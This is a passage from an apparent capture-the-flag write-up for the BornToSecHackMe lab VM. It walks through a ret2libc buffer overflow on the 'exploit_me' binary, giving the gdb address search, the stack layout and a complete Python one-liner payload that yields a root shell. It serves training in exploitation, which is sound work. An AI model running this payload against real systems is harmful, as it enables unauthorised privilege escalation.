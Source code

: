 ```assembly
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

So we have everything we need now. So how does it works ? If you give a string that is more than 140 bytes, it will store everything in the stack, even if it surpass the original allocated size.
Because of that, we can overwrite already existing code. And in particular, we want to write a call to the function `system()` with the argument `/bin/sh`. So we need to simulate what's going on inside the stack. 
For a function call, we will have : 

```assembly
function address
function return address
function argument 1
function argument 2
.
.
.
```

So to replicate this we have to (in python):

- First : overflow the buffer with a `140 bytes string` ("oO" * 70)
- Second : write the call to system : `"\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"`

We have to write the addresses in reverse, because the address is stored in little-endian
So it goes like this :

```bash
./exploit_me python -c 'print "oO" * 70 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"'
```

And here we go, we are root

```bash
zaz@BornToSecHackMe:~$ ./exploit_me `python -c 'print "oO" * 70 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7"'`
oOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoOoO`��IDGBX���
```


